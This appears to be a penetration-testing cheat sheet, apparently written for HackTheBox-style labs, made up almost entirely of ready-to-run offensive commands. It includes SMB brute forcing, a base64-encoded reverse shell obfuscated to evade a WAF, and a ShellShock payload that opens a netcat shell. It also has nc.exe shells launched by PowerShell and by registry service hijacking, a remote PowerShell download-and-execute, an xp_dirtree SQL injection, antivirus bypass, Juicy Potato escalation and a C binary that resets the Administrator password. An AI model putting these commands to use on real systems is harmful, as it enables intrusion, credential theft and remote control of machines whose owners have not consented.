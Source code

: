 # Miscellaneous

##### Cisco Type 7 Password Hash Crack
```
http://www.ifm.net.nz/cookbooks/cisco-ios-enable-secret-password-cracker.html
```

##### Bruteforce SMB
```
cme smb IP -u users.txt -p passwords.txt
```

##### Bruteforce RID
```
cme smb IP -u USER -p PASSWORD --rid-brute
```

##### Dump memory process
```
prodcump.exe -ma PID file.dmp
```

##### Verb Tampering
```
Change HTTP Method to bypass Authentication or check works or not.
```

##### Bypass WAF replacing spaces with ${IFS}
```
echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zLzQ0NDQgMD4mMQo=|base64${IFS}-d|bash
```

##### Uncompile compiled Python File
```
mv backup backup.pyc
uncompyle6 backup.pyc
```

##### Mime magic bytes
`````
echo '89 50 4E 47 0D 0A 1A 0A' | xxd -p -r > mime_shell.php.png (Check Networked)
`````


##### Check CMS
```
wappalyzer http://10.10.10.138/writeup/ | jq
```

##### Scanning magento
```
php magescan.phar scan:all http://IP
```

##### Powershell Runas
```
$username = '<username here>'
$password = '<password here>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","192.168.1.10","4444","-e","cmd.exe") -WorkingDirectory C:\Users\Public

powershell -ExecutionPolicy ByPass -command "& { . C:\Users\public\get.ps1; }"
```
##### ShellShock
```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.138 4444 >/tmp/f'" http://10.1.10.10/cgi-bin/admin.cgi
```

##### SCP for Windows
```
./pscp.exe -pw '12345' -batch -hostkey 8e:32:52:2e:9c:1d:30:74:2c:56:23:b5:f2:36:d4:87  firefox.exe_191116_172631.dmp  test@10.10.14.4:/home/test/
```

##### SSH Port Forwarding for Windows
```
y:\plink.exe -l userforpf -pw 12345 10.10.14.13 -R 5985:127.0.0.1:5985
```

##### List Services in Registry
```
Get-Childitem HKLM:\SYSTEM\CurrentControlset\Services\wuauserv | format-list
Get-ACL HKLM:\SYSTEM\CurrentControlSet\ | format-list
```
##### Registry Hijacking
```
reg add "HKLM\System\CurrentControlSet\services\seclogon" /t REG_EXPAND_SZ /v ImagePath /d "C:\windows\system32\spool\drivers\color\nc.exe 10.10.14.2 9999 -e cmd" /f
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Services\seclogon" /v ImagePath
```
##### Juicy Potato
```
juicypotato.exe -l 10000 -p "C:\Windows\system32\cmd.exe" -t * -a "/c whoami > text" -c {6d8ff8e0-730d-11d4-bf42-00b0d0118b56}
```
##### Volatility
```
volatility -f file ---profile=profile lsadump
```

##### Bypass Antivirus in Windows
```
git clone https://github.com/trustedsec/nps_payload.git
cd nps_payload/
pip install -r requirements.txt
python nps_payload.py

C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\10.10.14.13\myshare\msbuild_nps.xml

method 2: https://www.n00py.io/2018/06/executing-meterpreter-in-memory-on-windows-10-and-bypassing-antivirus-part-2/
```

##### Samba Share
```
apt-get install samba
cd /etc/samba/
vi smb.conf
```
```
[Guest]
        comment = Guest
        path = /tmp/share/
        browseable = yes
        read only = yes
        guest ok = yes
```

##### Powershell x64
```
C:\Windows\SysNative\WindowsPowershell\v1.0\Powershell -c "IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.13/Invoke-PowerShellTcp.ps1')
```

##### Running ps1
```
powershell.exe -ExecutionPolicy Bypass -File .\JAWS.ps1 -OutputFilename JAWS-Enum.txt
```

##### SQL Server XP_Dirtree
```
1;EXEC master..xp_dirtree '\\10.10.14.3\foo' --
```

##### Service binary path exploitation with custom C exploit
```
int main()
{
system("net user Administrator HackedByAydin123@");
return 0;
}

i686-w64-mingw32-gcc taskkill.c -o taskkill.exe
```

##### Accesschk
```
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -qdws "Authenticated Users" C:\Windows\ /accepteula
accesschk.exe -qdws Users C:\Windows\
```





